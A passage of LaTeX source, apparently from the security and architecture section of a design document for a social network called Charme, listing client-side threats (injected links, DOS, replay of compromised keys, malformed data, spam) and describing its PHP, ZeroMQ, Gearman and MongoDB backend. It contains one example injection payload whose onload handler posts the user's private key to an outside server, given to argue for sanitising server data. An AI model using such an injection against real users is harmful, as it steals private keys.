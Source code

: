 \documentclass{scrartcl}
\begin{document}
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!
\subsubsection{DOS}
Attackers can flood small servers with a lot of requests.
       \subsubsection{Replay attacks}
          Server can provide old public/private keys which have been compromised earlier for the user .
      \subsubsection{Malformed data}
      Attackers can send malformed data to clients which results in the client to producing an exception and therefore make Charme unusable for the user. Therefore malformed requests should be filtered by the client by checking for missing and correct typed values.
      
      \subsubsection{Spam}
      All posts from non-friends should be blocked. An exception are posts containing semantic information which should be searchable all over the web. Here we can either expand the search to friends server (efficient but may contain more spam) or even check friend of friend posts only (more computational power, but less spam).
 \section{Backend}
\subsection{Technology Stack}
On server side, PHP is used as an interpreter. The reason for PHP is that it has a wide community supporting it, as it is used by many other big websites like Facebook or Wordpress for example. \textit{ZeroMQ} is used to send socket messages and communicate between different PHP threads. \textit{Gearman} is necessary to execute background tasks like sending messages in the asynchronously. As a database, \textit{MongoDB} is used, as it is scalable and has the ability to directly store JSON object to the database.
Administrations scripts are written for GNU Bash to provide ssh access.
\end{document}
